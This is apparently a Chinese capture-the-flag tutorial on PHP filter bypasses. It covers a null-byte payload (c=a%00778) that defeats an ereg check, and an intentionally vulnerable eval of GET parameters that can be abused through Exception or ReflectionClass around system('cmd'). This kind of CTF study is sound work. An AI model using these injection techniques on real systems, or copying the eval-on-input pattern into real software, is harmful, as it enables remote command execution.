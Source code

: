 **列子**

```Plain Text
<?php
highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

if (ereg ("^[a-zA-Z]+$", $_GET['c'])===FALSE)  {<!-- -->
    die('error');

}
//只有36d的人才能看到flag
if(intval(strrev($_GET['c']))==0x36d){<!-- --> //877
    echo $flag;
}

?>


```
`\^[a-zA-Z]+$这个正则意思是：匹配所有大小写字母一次或者多次（+号：一次或者多次） $是以这个结尾，^以这个开始`

```Plain Text
构造

payload:c=a%00778
首先正则表达式只会匹配%00之前的内容，后面的被截断掉，可以通过正则表达式检测，后面通过反转成877%00a，再用intval函数获取整数部分得到877，877为0x36d的10进制。


```
* \# 14.Exception报错函数（）
* \## ReflectionClass 打印类结果

Exception 通过异常处理类Exception(system(‘cmd’))可以运行指定代码，并且能返回运行的结果（如果存在返回）

```Plain Text
<?php
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){<!-- -->
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/[a-zA-Z]+/', $v1) && preg_match('/[a-zA-Z]+/', $v2)){<!-- -->
            eval("echo new $v1($v2());");
    }

}

?>


```
考察点：php 异常类 先来看下这个正则表达式/\[a-zA-Z\]+/ 匹配至少有一个字母的字符串 所以我们只要让new后面有个类不报错以后，就可以随意构造了。我们随便找个php中的内置类并且可以直接echo输出的就可以了。 举两个例子 Exception ReflectionClass 打印类的结构
